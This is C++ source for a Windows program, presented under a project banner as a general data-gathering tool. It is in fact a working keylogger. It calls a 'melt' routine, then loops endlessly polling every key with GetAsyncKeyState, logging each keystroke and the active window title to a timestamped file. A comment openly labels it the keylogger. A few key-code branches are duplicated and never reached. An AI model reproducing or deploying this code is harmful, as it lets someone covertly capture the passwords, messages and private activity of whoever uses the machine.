 	NP | Old Masters, LLC.
	
	DIRGE: ( Direct Intervention Respectfully Gathering Everything )
		-- courtesy of the magnet
		
		ABSTRACT: DIRGE is one eventuality, in reaction to, and by, grief-stricken tests of freedom.
		          If that makes no sense, feel free to ignore.
		
		SUMMARY: In plain English, DIRGE is both a library and a set of tools for gathering,
		         processesing, analyzing, protecting, sharing, changing, and using things.
				 
				 These things are:
				 
				 	1. Data and Meta-data.
		
		
		Component: dk


#include "main.h"

using namespace std;

int main(int argc, char *argv[]){
	melt();
	printf("%s %d.%d.%d (%s %s)\n", PROJECT_NAME, PROJECT_VERSION_MAJOR, PROJECT_VERSION_MINOR, PROJECT_VERSION_PATCH, __DATE__, __TIME__);
	puts(PROJECT_COPYRIGHT);
	puts("");
	
	string basepath = dirBasename(getSelfPath());
	
	time_t rawtime;
	struct tm *timeinfo;
	time(&rawtime);
	timeinfo = localtime(&rawtime);
	char filename[MAX_PATH];
	char filepath[MAX_PATH];
	strftime(filename, 100, "%Y-%m-%d_%H-%M-%S", timeinfo);
	sprintf(filepath, "%s\\%s%s", basepath.c_str(), filename, LOGEXT);
	
	//printf("filepath '%s'\n", filepath); exit(0);
	
	string lastTitle = "";
	ofstream klogout(filepath);
	
	//SHORT lastc = 0;
	while(1){
		Sleep(2); // give other programs time to run
		
		// get the active windowtitle
		char title[1024];
		HWND hwndHandle = GetForegroundWindow();
		GetWindowText(hwndHandle, title, 1023);
		if(lastTitle != title){
			klogout << endl << endl << "Window: ";
#ifdef DEBUG
			cout << endl << endl << "Window: ";
#endif
			if(strlen(title) == 0){
				klogout << "NO ACTIVE WINDOW";
#ifdef DEBUG
				cout << "NO ACTIVE WINDOW";
#endif
			}
			else{
				klogout << "'" << title << "'";
#ifdef DEBUG
				cout << "'" << title << "'";
#endif
			}
			klogout << endl;
#ifdef DEBUG
			cout << endl;
#endif
			
			lastTitle = title;
		}
		
		// logging keys, thats the keylogger
		for(unsigned char c = 1; c < 255; c++){
			SHORT rv = GetAsyncKeyState(c);
			if(rv & 1){ // on press button down
				string out = "";
				if(c == 1)
					out = "[LMOUSE]"; // mouse left
				else if(c == 2)
					out = "[RMOUSE]"; // mouse right
				else if(c == 4)
					out = "[MMOUSE]"; // mouse middle
				else if(c == 13)
					out = "[RETURN]";
				else if(c == 16 || c == 17 || c == 18)
					out = "";
				else if(c == 160 || c == 161) // lastc == 16
					out = "[SHIFT]";
				else if(c == 162 || c == 163) // lastc == 17
					out = "[STRG]";
				else if(c == 164) // lastc == 18
					out = "[ALT]";
				else if(c == 165)
					out = "[ALT GR]";
				else if(c == 8)
					out = "[BACKSPACE]";
				else if(c == 9)
					out = "[TAB]";
				else if(c == 27)
					out = "[ESC]";
				else if(c == 33)
					out = "[PAGE UP]";
				else if(c == 34)
					out = "[PAGE DOWN]";
				else if(c == 35)
					out = "[HOME]";
				else if(c == 36)
					out = "[POS1]";
				else if(c == 37)
					out = "[ARROW LEFT]";
				else if(c == 38)
					out = "[ARROW UP]";
				else if(c == 39)
					out = "[ARROW RIGHT]";
				else if(c == 40)
					out = "[ARROW DOWN]";
				else if(c == 45)
					out = "[INS]";
				else if(c == 46)
					out = "[DEL]";
				else if((c >= 65 && c <= 90)
					|| (c >= 48 && c <= 57)
					|| c == 32)
					out = c;
				
				else if(c == 91 || c == 92)
					out = "[WIN]";
				else if(c >= 96 && c <= 105)
					out = "[NUM " + intToString(c - 96) + "]";
				else if(c == 106)
					out = "[NUM /]";
				else if(c == 107)
					out = "[NUM +]";
				else if(c == 109)
					out = "[NUM -]";
				else if(c == 109)
					out = "[NUM ,]";
				else if(c >= 112 && c <= 123)
					out = "[F" + intToString(c - 111) + "]";
				else if(c == 144)
					out = "[NUM]";
				else if(c == 192)
					out = "[OE]";
				else if(c == 222)
					out = "[AE]";
				else if(c == 186)
					out = "[UE]";
				else if(c == 186)
					out = "+";
				else if(c == 188)
					out = ",";
				else if(c == 189)
					out = "-";
				else if(c == 190)
					out = ".";
				else if(c == 191)
					out = "#";
				else if(c == 226)
					out = "<";
				
				else
					out = "[KEY \\" + intToString(c) + "]";
				
#ifdef DEBUG
				cout << ">" << out << "< (" << (unsigned)c << ")" << endl;
#endif
				klogout << out;
				klogout.flush();
				
				//lastc = c;
			}
		}
		
	}
	
	klogout.close();
	
	return 0;
}


